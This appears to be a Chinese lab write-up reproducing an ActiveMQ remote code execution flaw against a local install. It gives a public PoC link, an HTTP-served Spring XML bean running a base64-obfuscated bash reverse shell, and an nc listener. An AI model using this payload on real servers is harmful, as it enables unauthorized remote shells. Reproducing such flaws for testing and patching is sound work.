


0x01 复现
好久前的 ，同步一下
下载activemq安装包，在bin目录下启动
activemq console

下载poc https://github.com/Fw-fW-fw/activemq_Throwable
在 poc目录下起一个http服务
python3 -m http.server 8000
编写一个poc为反弹shell
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| <beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="
http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg >
<list>
<value>bash</value>
<value>-c</value>
<value>{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}</value>
</list>
</constructor-arg>
</bean>
</beans>
|
执行的命令写在<value>标签内
用nc起一个监听
nc -l 8888
最后执行poc

成功shell